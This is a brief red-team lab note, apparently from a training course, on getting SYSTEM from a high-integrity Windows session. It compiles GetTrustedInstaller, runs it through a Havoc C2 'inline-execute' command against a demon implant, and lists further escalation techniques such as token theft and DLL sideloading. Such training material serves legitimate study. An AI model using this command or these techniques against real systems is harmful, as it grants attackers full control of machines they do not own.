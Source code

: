 # Lab - GetSystem

A very simple lab stat shows you another way of getting SYSTEM when running in a high integrity context.

<https://github.com/rara64/GetTrustedInstaller>

Compile the code and upload with updog2 to kali /opt/Havoc/assemblies

From your demon session in Havoc C2 Client
```bash
dotnet inline-execute /opt/Havoc/assemblies/GetTrustedInstaller.exe "c:\temp\demon.x64.exe"
```
![image](./images/lab_getsystem_trusted.jpg)
![image](./images/lab_getsystem_si.jpg)


We have seen once we are in high ingrity level, we can get system by

- injecting into a system process
- named pipe race condition (not in the training)
- spawn a child process from a system process
- steal (duplicate) a token from a system process
- dll sideload / Unquoted Service Path using a process runnin as SYSTEM.